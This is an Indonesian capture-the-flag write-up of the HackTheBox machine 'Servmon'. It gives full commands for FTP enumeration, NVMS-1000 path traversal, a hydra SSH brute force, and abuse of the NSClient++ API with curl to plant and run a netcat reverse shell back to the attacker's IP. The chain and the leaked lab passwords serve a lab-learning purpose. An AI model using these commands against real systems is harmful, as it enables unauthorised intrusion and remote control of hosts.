 ```yaml
---
layout: posts
title:  "Servmon"
dates:   July 2020
tag:	hackthebox
categories: hackthebox
image: ""
author: "OREOSEC"
---
```

**Bismillah..**  

Sebagai informasi mesin ini bernama Servmon dengan OS windows dengan total 20 points (easy). Adapun seperti biasanya, tantangan dari HackThebox adalah mengambil alih akses penuh mesin (privilege escalation) untuk mendapatkan user.txt dan root.txt  
  

Intro
-----

Box yang relatif mudah. Masuk ke FTP sebagai anonymous login. Layanan nvms-1000 rentan terhadap eksploitasi publik (Directory Traversal). Membaca file Passwords.txt menggunakan Dir-traversal. Brute Force dan mencoba masuk ke ssh login sebagai Nadine user. Layanan yang berjalan pada port 8443 Nsclient rentan terhadap eksploitasi publik dan kita dapat menggunakannya untuk mendapatkan root

This content
------------

*   [Nmap port scanning](#nmap)
*   [Check anonymous ftp](#ftp)
*   [NVMS 1000 path traversal](#path-traversal)
*   [Login Nadine ssh](#user)
*   [Port forward 8443](#port-forward)
*   [Exploit NSClient++](#gaining-root)
*   [Working with curl](#curl)

Enumerate	
-----

### Nmap scanning {#nmap}

Pertama tama seperti biasa adalah melakukan scanning port untuk menemukan service yang berjalan menggunakan nmap  

```bash
sudo nmap -sCV -oN nmap/serv 10.10.10.184
```

**penjelasan:**

*   \-s: Scanning TCP port mode
*   C: menggunakan common-script pada service yang dituju
*   V: menampilkan version pada service
*   \-oN nmap/serv: write output ke dalam file nmap/serv
*   10.10.10.184: IP servmon

![](/assets/img/servmon/nmap.png)

Yang menarik disini adalah pada port 21 dan 22 yang sebenarnya jarang pada windows box hmmm...

### FTP {#ftp}

Setelah melihat port 21 (ftp) terbuka dan anonymous login dibolehkan maka kita bisa mengeceknya  
```bash
ftp 10.10.10.184
```

*   username: anonymous
*   password: anonymous

kita bisa mendownload file menggunakan perintah "get".  
Disini kita mendapatkan 2 file: "Confidential.txt" dan "Notes to do.txt" 

![](/assets/img/servmon/ftp-content.png) 

Oke karna hanya sebuah catatan (baca: hint) maka kita skip dulu.

Karena port 80 terbuka maka langsung saja kita cek web service yang berjalan ![](/assets/img/servmon/webpage.png)


Saya langsung mencari exploit nvms-1000 pada searchsploit 

![](/assets/img/servmon/searchsploit.png)

### Path Traversal {#path-traversal}

atau kita bisa membukanya [disini](https://www.exploit-db.com/exploits/47774)

Exploit
-------

Langsung saja karna kita sudah mendapatkan hint yaitu pada file Confidential.txt dimana mengatakan "I left your Password.txt on your Desktop" maka kita hanya mengarahkan ke dalam file C:\\Users\\Nathan\\Desktop\\password.txt. Disini saya menggunakan burp suite dan menggunakan mode repeater untuk mengeksploitasinya

![](/assets/img/servmon/burp.png)

Hmmm... ternyata ada beberapa password yang ada di dalam filenya ini mengharuskan kita untuk membrute forcenya. Disini saya menggunakan hydra, karna ssh terbuka maka kita akan membrute force pada bagian ssh

```bash
sudo hydra -l Nadine -P password.txt 10.10.10.184 ssh
```

![](/assets/img/servmon/ssh-brute.png)

Yap disini kita disini mendapatkan passwordnya: L1k3B1gBut7s@W0rk  
maka kita langsung saja login melalui ssh dan mendapatkan user flagnya :)  

### User {#user}

```bash
ssh Nadine@10.10.10.184
```

```bash
Microsoft Windows \[Version 10.0.18363.752\]          
(c) 2019 Microsoft Corporation. All rights reserved.
													
nadine@SERVMON C:\\Users\\Nadine
```			

Disini yang saya lakukan pertama kali adalah melihat program yang terinstall pada Program Files, dan menemukan NSClient++. Saya pun mencarinya menggunakan searchsploit dan yap.. dapat!! terdapat privilege escalation exploit pada service tersebut. 

![](/assets/img/servmon/nsclient-exploit.png) 

setelah mengetahui bahwa nsclient++ bekerja pada port 8443, maka saya mencoba melakukan port forward dari ssh ke host pribadi saya.  

### Port Forward {#port-forward}

```bash
ssh -L 8443:127.0.0.1:8443 Nadine@10.10.10.184
```

  
mengenai tentang port forward ssh kalian bisa membacanya   
[disini](https://www.techrepublic.com/article/how-to-use-local-and-remote-ssh-port-forwarding/)

### Gaining Root access!!! {#gaining-root}

Yap.. tinggal sebentar lagi kita akan menyelesaikan box ini :D maka bersiap siaplah mendapatkan sensasinya B).  
Ikuti instruksi dari refrensi exploit-db diatas, yaitu masuk ke Directory penyimpanan NSClient++ berada lalu lakukan perintah  

```bash
nscp web -- password --display
```

Current password: `ew2x6SsGTxjRwXOT`
				

Karena kita sudah melakukan port forward ke host kita maka kita hanya tinggal membukanya di http://127.0.0.1:8443 

![](/assets/img/servmon/web-nsclient.png)

Sebenarnya disini saya mendapat masalah (webnya gak mau jalan), bahkan bukan saya saja... teman saya yang sudah memakai akun VIP pun sama & akhirnya menyerah.. namun tidak pada saya :) (mungkin ini penyebab box-nya pensiun dini) saya mencari cara dan akhirnya mendapatkan bahwa kita bisa menggunakan API simak [https://docs.nsclient.org/api/rest/](https://docs.nsclient.org/api/rest/)

### Exploit NSClient++ API using curl {#curl}

Pertama tama kita perlu mengupload netcat ke dalam mesin target, saya akan menggunakan scp untuk hal ini simak [disini](https://linux4one.com/how-to-use-scp-command-to-transfer-files-folders-in-linux/)  
netcat: [netcat](https://github.com/diegocr/netcat)  

```bash
scp nc.exe Nadine@10.10.10.184:c:\Temp
```

  
  
listening port dengan netcat: ```bash netcat -lvnp 1337```
Membuat hook script untuk exploit (ganti dengan ip kalian):  

```bash
curl -s -k -u admin:ew2x6SsGTxjRwXOT -X PUT https://127.0.0.1:8443/api/v1/scripts/ext/scripts/shell.bat --data-binary "c:\Temp\nc.exe 10.10.14.19 1337 -e cmd.exe"
```

  
cek apakah file-nya sudah ada:  

```bash
curl -s -k -u admin:ew2x6SsGTxjRwXOT https://localhost:8443/api/v1/queries/shell |python -m json.tool
```

```json
{
	"description": "Alias for: scripts\\\\shell.bat",
	"execute\_nagios\_url": "https://localhost:8443/api/v1/queries/shell/commands/execute\_nagios",
	"execute\_url": "https://localhost:8443/api/v1/queries/shell/commands/execute",
	"metadata": {},
	"name": "shell",
	"title": "shell"
}
```
				

File-nya sudah terupload :D mari kita eksekusi!!!  

```bash
curl -s -k -u admin:ew2x6SsGTxjRwXOT https://127.0.0.1:8443/api/v1/queries/shell/commands/execute?time=1ms
```

  
Daaannnn... 

![](/assets/img/servmon/root.png)

 ROOOOOTTTT!!!!